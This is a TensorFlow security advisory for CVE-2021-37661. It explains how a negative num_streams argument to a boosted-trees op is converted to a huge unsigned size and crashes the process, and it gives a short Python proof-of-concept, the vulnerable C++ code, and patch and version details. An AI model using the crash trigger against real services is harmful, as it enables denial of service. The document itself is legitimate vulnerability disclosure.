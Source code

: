## TFSA-2021-135: Crash caused by integer conversion to unsigned

### CVE Number
CVE-2021-37661

### Impact
An attacker can cause a denial of service in
`boosted_trees_create_quantile_stream_resource` by using negative arguments:

```python
import tensorflow as tf
from tensorflow.python.ops import gen_boosted_trees_ops
import numpy as np

v= tf.Variable([0.0, 0.0, 0.0, 0.0, 0.0])
gen_boosted_trees_ops.boosted_trees_create_quantile_stream_resource(
  quantile_stream_resource_handle = v.handle,
  epsilon = [74.82224],
  num_streams = [-49],
  max_elements = np.int32(586))
```

The
[implementation](https://github.com/galeone/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/boosted_trees/quantile_ops.cc#L96)
does not validate that `num_streams` only contains non-negative numbers. In
turn, [this results in using this value to allocate
memory](https://github.com/galeone/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/boosted_trees/quantiles/quantile_stream_resource.h#L31-L40):

```cc
class BoostedTreesQuantileStreamResource : public ResourceBase {
 public:
  BoostedTreesQuantileStreamResource(const float epsilon,
                                     const int64 max_elements,
                                     const int64 num_streams)
      : are_buckets_ready_(false),
        epsilon_(epsilon),
        num_streams_(num_streams),
        max_elements_(max_elements) {
    streams_.reserve(num_streams_);
    ...
  }
}
```

However, `reserve` receives an unsigned integer so there is an implicit
conversion from a negative value to a large positive unsigned. This results in
a crash from the standard library.

### Patches
We have patched the issue in GitHub commit
[8a84f7a2b5a2b27ecf88d25bad9ac777cd2f7992](https://github.com/galeone/tensorflow/commit/8a84f7a2b5a2b27ecf88d25bad9ac777cd2f7992).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
